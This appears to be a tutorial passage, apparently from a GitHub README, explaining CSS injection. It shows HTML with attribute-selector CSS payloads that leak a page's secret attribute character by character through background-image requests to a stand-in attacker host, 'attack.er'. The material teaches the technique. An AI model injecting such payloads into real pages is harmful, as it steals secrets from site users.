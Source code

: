 For those who don't know much about `css injection`, here is a short intro (*Super-Hackers can surely skip this*). Suppose you have a web page with a code like below.  

```html
<html>
  <head></head>
  <body>
    <span secret="1g0ts3cr3t5"></span>
  </body>
</html>
```

Now if we add some carefully crafted css into this code as below.  

```html
<html>
  <head></head>
  <body>
    <span secret="1g0ts3cr3t5"></span>
    <style>
      span[secret^=a] {background:url(https://attack.er/a)}
      span[secret^=b] {background:url(https://attack.er/b)}
      span[secret^=c] {background:url(https://attack.er/c)}
      ...
      ...
      span[secret^=z] {background:url(https://attack.er/z)}
      span[secret^=0] {background:url(https://attack.er/0)}
      span[secret^=1] {background:url(https://attack.er/1)}
      ...
      span[secret^=9] {background:url(https://attack.er/9)}
    </style>
  </body>
</html>
```

Here the added css code is checking if there is a `span` with `secret` attribute of value starting with any of the checked characters. If yes, it will fetch background for it from the provided url. Which will cause a request to attackers url, letting him know secrets first character. This payload css only works for first character brute force. But after we attacker knows the first character he can craft a new css payload to brute force the second character by fixing first character in the checks as below.  

```html
<html>
  <head></head>
  <body>
    <span secret="1g0ts3cr3t5"></span>
    <style>
      span[secret^=1a] {background:url(https://attack.er/1a)}
      span[secret^=1b] {background:url(https://attack.er/1b)}
      span[secret^=1c] {background:url(https://attack.er/1c)}
      ...
      ...
      span[secret^=1z] {background:url(https://attack.er/1z)}
      span[secret^=10] {background:url(https://attack.er/10)}
      span[secret^=11] {background:url(https://attack.er/11)}
      ...
      span[secret^=19] {background:url(https://attack.er/19)}
    </style>
  </body>
</html>
```
